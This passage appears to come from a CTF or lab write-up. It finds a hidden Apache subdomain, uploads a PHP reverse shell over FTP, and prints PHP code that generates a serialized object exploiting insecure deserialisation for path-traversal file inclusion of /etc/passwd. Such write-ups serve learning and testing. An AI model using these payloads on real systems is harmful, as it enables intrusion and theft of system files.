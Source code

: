```
-rw-r--r--    1 0        0             323 May 11  2021 001.conf
-rw-r--r--    1 0        0             360 May 11  2021 002.conf
```

`002.conf` contained a hidden subdomain:

```
$ cat 002.conf 
<VirtualHost *:80>
AssignUserId shanah shanah
ServerAdmin webmaster@localhost
DocumentRoot /var/www/dev
ServerName und3r_dev.deployer.off
ServerAlias und3r_dev.deployer.off
<Directory "/var/www/dev">
  Options FollowSymLinks
    AllowOverride All
</Directory>
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

The DocumentRoot is where the vulnerable PHP files are located, so this hidden domain is the exploitable one.

The intended path seems to be using deserialisation for LFI and maybe to execute PHP files. We are unable to write to the almost all the directories accessible through FTP except for the `ftp` one:

```
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||26863|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> put phpreverseshell.php
local: phpreverseshell.php remote: phpreverseshell.php
229 Entering Extended Passive Mode (|||23987|)
150 Ok to send data.
100% |************************************************|  5494       95.26 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (15.38 KiB/s)
```

### Deserialisation --> LFI + RCE

To exploit the LFI, I used some PHP code to generate the serialised objects needed:

```php
<?php
    class Page
    {
        public $file ='../../../../../../../etc/passwd';

        public function __wakeup()
        {
            include ($this -> file);
            echo wakeup;
        }
    }
    $a=new Page();
    echo serialize($a);
?>

$ php test.php               
O:4:"Page":1:{s:4:"file";s:31:"../../../../../../../etc/passwd";}
```